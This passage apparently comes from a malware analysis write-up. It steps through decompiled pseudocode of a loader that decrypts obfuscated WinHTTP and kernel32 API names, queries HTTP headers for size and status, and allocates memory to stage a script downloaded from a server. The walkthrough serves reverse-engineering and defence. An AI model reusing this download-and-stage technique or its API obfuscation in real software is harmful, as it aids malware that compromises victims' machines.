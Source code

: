 From this response, it retrieves the size of the `Content-Length` header (`0x20000005`), which represents the size in bytes of the content returned by the server:

```c
GetEncryptedDataOf_WinHttpQueryHeaders(&var_3d1, &var_3d0);
void* name_WinHttpQueryHeaders = GetDecrypted_WinHttpQueryHeaders(&var_3d0);
void var_401;
void var_400;
sub_7ffa1bc490c0(&var_401, &var_400);
void* name_winhttp_7;
int64_t r8_8;
name_winhttp_7 = DecryptData_4(&var_400);
var_818 = &var_3ac;
int64_t query_success = ResolveFunction(name_winhttp_7, name_WinHttpQueryHeaders, r8_8, get_response)(hRequest, 0x20000005, 0, &size, var_818, 0);
```

If the size of the retrieved data is greater than 0, it enters the condition where the script will be downloaded.

To retrieve the script, it uses `WinHttpQueryHeaders` again, but this time to get the HTTP status code. If it equals `0xc8 == 200` (which corresponds to `OK`), then the program continues executing:

```c
GetEncryptedDataOf_WinHttpQueryHeaders_2(&var_431, &var_430);
void* name_WinHttpQueryHeaders_2 =
    GetDecrypted_WinHttpQueryHeaders(&var_430);
void var_461;
void var_460;
GetEncryptedDataOf_winhttp_7(&var_461, &var_460);
void* name_winhttp_8;
int64_t r8_9;
name_winhttp_8 = DecryptData_4(&var_460);
var_818 = &var_40c;
ResolveFunction(name_winhttp_8, name_WinHttpQueryHeaders_2, r8_9, query_success)(hRequest, 0x20000013, 0, &var_408, var_818, 0);
```

If it continues executing, the use of the script begins. First, it allocates a read/write memory region of the size retrieved in the last `WinHttpQueryHeaders` call:


```c
GetEncryptedDataOf_VirtualAlloc(&var_481, &var_480);
void* function_name = DecryptData_10(&var_480);
void var_4b1;
void var_4b0;
int64_t r9_6 = GetEncryptedDataOf_kernel32_2(&var_4b1, &var_4b0);
void* module_name;
int64_t r8_10;
module_name = DecryptData_2(&var_4b0);
void* VirtualAlloc =
    ResolveFunction(module_name, function_name, r8_10, r9_6);
int64_t allocatedSpaceAddress;
int64_t r9_7;
allocatedSpaceAddress = VirtualAlloc(0, (uint64_t)size, 0x3000, 4);
```
